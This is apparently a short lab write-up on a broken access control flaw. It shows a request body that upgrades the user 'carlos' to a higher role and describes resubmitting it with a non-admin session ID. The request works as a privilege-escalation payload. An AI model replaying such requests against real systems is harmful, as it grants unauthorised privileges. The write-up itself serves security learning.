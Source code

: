 # BAC Vulnerability - with no access control on one step 


Trying to upgrade Carlos!

![****](/BAC-BrokenAccessControl/Screenshots/bac12-2.PNG)

```
action=upgrade&confirmed=true&username=carlos
```

![****](/BAC-BrokenAccessControl/Screenshots/bac12-3.PNG)

Copying the session ID from the non-admin role! and submitting the request!
